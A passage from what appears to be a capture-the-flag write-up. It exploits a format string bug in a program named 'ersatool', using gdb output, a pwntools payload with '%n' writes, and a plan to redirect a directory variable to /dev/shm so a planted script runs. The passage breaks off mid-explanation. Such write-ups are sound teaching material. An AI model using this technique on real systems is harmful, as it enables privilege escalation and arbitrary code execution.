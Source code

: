     print->CN=$



If I attach `gdb` again (`sudo gdb -p $(pidof ersatool)`), I can see
that the value of `ERSA_DIR` has changed (printed both as hex word and a
string):



    gdb-peda$ x/xg &ERSA_DIR 
    0x5640f813e0f0 <ERSA_DIR>:      0x7361652f00000014
    gdb-peda$ x/s &ERSA_DIR
    0x5640f813e0f0 <ERSA_DIR>:      "\024"



The low 32-bit word has been overwritten with the value 0x14, which is
20, the number of bytes written before it reached the `%n` specifier. If
I want a `/`, I need 47 instead of 20, which I can just change in the
padding:



    p.sendline("%16$47p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr))



Running again and then attaching `gdb`:



    gdb-peda$ x/s &ERSA_DIR
    0x55a4ded870f0 <ERSA_DIR>:      "/"
    gdb-peda$ x/xg &ERSA_DIR 
    0x55a4ded870f0 <ERSA_DIR>:      0x7361652f0000002f



#### Write Path

Having shown I can write memory, I want to overwrite `ERSA_DIR` with
`/dev/shm`, so I can drop my script in there and have it run.

  Format          Value
  --------------- ---------------------
  String          /dev/shm
  Hex             0x2f6465762f73686d
  Little Endian   0x6d68732f7665642f
  Integer         7883677795399066671

I just need to write 7,883,677,795,399,066,671 bytes before the `%n`.
Clearly that isn't going to work. But I can write it one byte at a time.
In many format string attacks, this is done by alternating `%p` (or
`%x`) and `%n` specifiers in the same string, with multiple addresses on
in the payload to reference. But here, since I can take multiple hits at
the format string vuln in the same process memory, I'll just send a
print request for each character I want to write.

I could do something like:


